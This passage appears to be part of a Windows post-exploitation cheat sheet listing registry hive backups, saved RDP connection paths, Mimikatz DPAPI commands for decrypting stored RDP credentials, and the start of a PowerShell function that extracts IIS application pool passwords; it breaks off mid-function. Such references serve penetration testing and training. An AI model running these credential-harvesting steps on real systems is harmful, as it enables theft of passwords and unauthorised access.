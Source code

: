 ```powershell
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
```

---
#### SAVED RDP CONNECTIONS
```powershell
# REGISTRY
HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\
HKCU\Software\Microsoft\Terminal Server Client\Servers\
# LOCAL FILE
Get-ChildItem -Recurse -Force -Include *.rdp
get-content .\config.rdp
username:s:Administrator
password:s:xxxxxxxxxxxxx
```

---
#### RECENTLY RUN COMMANDS
```powershell
HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
```

---
#### REMOTE DESKTOP CREDENTIAL MANAGER
```powershell
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```
:information_source: Use the Mimikatz dpapi::rdg module with appropriate /masterkey to decrypt any .rdg files
You can extract many DPAPI masterkeys from memory with the Mimikatz sekurlsa::dpapi module

---
#### APPCMD
```powershell
function Get-ApplicationHost {
    $OrigError = $ErrorActionPreference
    $ErrorActionPreference = "SilentlyContinue"

    # Check if appcmd.exe exists
    if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
        # Create data table to house results
        $DataTable = New-Object System.Data.DataTable

        # Create and name columns in the data table
        $Null = $DataTable.Columns.Add("user")
        $Null = $DataTable.Columns.Add("pass")
        $Null = $DataTable.Columns.Add("type")
        $Null = $DataTable.Columns.Add("vdir")
        $Null = $DataTable.Columns.Add("apppool")

        # Get list of application pools
        Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {
```